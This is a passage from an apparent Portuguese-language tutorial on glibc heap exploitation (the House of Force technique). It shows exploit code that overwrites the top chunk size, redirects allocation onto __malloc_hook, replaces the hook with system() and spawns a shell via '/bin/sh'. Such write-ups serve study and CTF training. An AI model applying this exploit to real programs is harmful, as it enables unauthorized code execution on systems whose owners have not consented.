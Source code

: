 Neste caso, como temos o vazamento do endereço da *heap*, podemos escrever a string "/bin/sh" diretamente em um *chunk*. Seguindo este raciocínio, nossa segunda requisição, que manda somente um "A" pode ser substituída pelo "/bin/sh" seguido de um *null byte* `\\0`.  
Em seguida, podemos fazer a quarta requisição, que apontará para a `heap + 0x30` que é o atual endereço da `system()`. O bloco final ficará desta forma:

```py
#===============EXPLOITING================#

# sobrescrevendo o top chunk size field
malloc(24, b"A" * 24 + p64(0xffffffffffffffff))

# calculando distancia entre a __malloc_hook e o top chunk
distance = (libc.sym.__malloc_hook - 0x20) - (heap + 0x20)

# solicitando um chunk do tamanho da distancia e preenchendo com "/bin/sh"
malloc(distance, b"/bin/sh\0")

# sobrescrevendo a malloc hook
malloc(24, p64(libc.sym.system))

# criando variável que aponta para a system()
shell = heap + 0x30

# solicitando o chunk que executa "/bin/sh"
malloc(shell, b"")
#=========================================#
```
Agora, quando executamos nosso script, fora do GDB, em condições de produção, a última solicitação de *chunk* irá executar `system("/bin/sh")`, conforme imagem abaixo.

![Shell obtido](/img/papers/heap_p1/paper_heap1_73.png)

Existe outra alternativa para obter o *shell*, pois a string "/bin/sh" já existe dentro da GLIBC. A razão disso, é porque funções como `system()` já fazem o equivalente a executar "/bin/sh" via `syscall execve` que também é utilizada para executar um comando passado pelo programa. Podemos substituir a linha de comando que contém a *string* "/bin/sh" pelo endereço da mesma *string* dentro da GLIBC, ficando desta forma: `shell = next(libc.search(b"/bin/sh"))`. Ao executarmos o script novamente, temos o mesmo resultado, conforme imagem abaixo.
